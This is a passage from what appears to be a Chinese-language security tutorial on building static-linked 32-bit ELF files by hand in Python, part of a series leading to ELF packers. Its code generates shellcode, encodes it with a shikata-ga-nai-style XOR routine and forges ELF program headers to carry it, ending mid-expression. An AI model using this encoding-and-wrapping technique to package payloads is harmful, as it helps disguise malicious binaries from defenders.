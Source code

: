 但是linux中动态链接的ELF文件和静态链接的ELF文件的加载执行过程还是存在着比较大的差异，这其中涉及到很多我们没有讲到的知识，所以想直接构建出动态链接的ELF文件是有困难的，关于这部分知识我会在以后的ELF壳专题文章中进行详细的拆解。

### <a class="reference-link" name="%E9%9D%99%E6%80%81%E9%93%BE%E6%8E%A5%E7%9A%84ELF%E6%96%87%E4%BB%B6"></a>静态链接的ELF文件

编译一个静态链接的ELF文件，`gcc -m32 test.c  -o test -static`,编译后文件大小是642kb(关于静态链接的背后是怎么实现的，以后再写其他文章进行详解),查看 `Segment` 信息如下：

[![](https://p1.ssl.qhimg.com/t01e9eb8c1c361118d8.png)](https://p1.ssl.qhimg.com/t01e9eb8c1c361118d8.png)

注意 `PT_GNU_RELRO` 段指向的数据和第二个 `PT_LOAD` 段指向的是同一块数据。<br>
接下来我们构造如下的段信息 `两个PT_LOAD`,`PT_NOTE`,`PT_TLS`,`PT_GNU_RELRO`段，我们接着上一节的代码写:

```
if __name__ == "__main__":

    decodeSub,shellcode,length,key =  generate_shikata_block(generate_shellcode())
    print(decodeSub+shellcode,length,key)

    shellcode = xor_encrypt(decodeSub,shellcode,length,key)

    shellcode = "".join( 
            [ 
                chr( i ) for i in shellcode 
            ] 
        ).encode("latin-1")

    # shellcode = pad(shellcode,b=b"\xcc")
    elf_header = build_elf_header()
    pheaders = []

    PHEADERS_LEN = 5
    elf_header.e_phnum = PHEADERS_LEN


    # PT_NOTE_LEN = random.randint(0x50,0x100) //4 * 4

    # 伪造 PT_NOTE 段
    PT_NOTE_LEN = 0x44
    elf_pheader_pt_note = ElfN_Phdr(
        p_type = 0x4,
        p_flags = 0x4, 
        p_offset = c.sizeof( ElfN_Ehdr ) + 
        c.sizeof( ElfN_Phdr ) *PHEADERS_LEN ,

        p_vaddr = c.sizeof( ElfN_Ehdr ) + 
        c.sizeof( ElfN_Phdr ) *PHEADERS_LEN + MEM_VADDR,

        p_paddr = c.sizeof( ElfN_Ehdr ) + 
        c.sizeof( ElfN_Phdr ) *PHEADERS_LEN + MEM_VADDR ,

        p_filesz = PT_NOTE_LEN, # 文件大小 
        p_memsz = PT_NOTE_LEN, # 加载到内存中的大小
        p_align = 0x4   
    )


    # 伪造第一个 PT_LOAD 段
    elf_pheader_pt_load_1 = build_elf_pheader()
    elf_pheader_pt_load_1.p_filesz = c.sizeof( elf_header ) 
    + c.sizeof( ElfN_Phdr ) *PHEADERS_LEN + PT_NOTE_LEN
    len(shellcode) 

```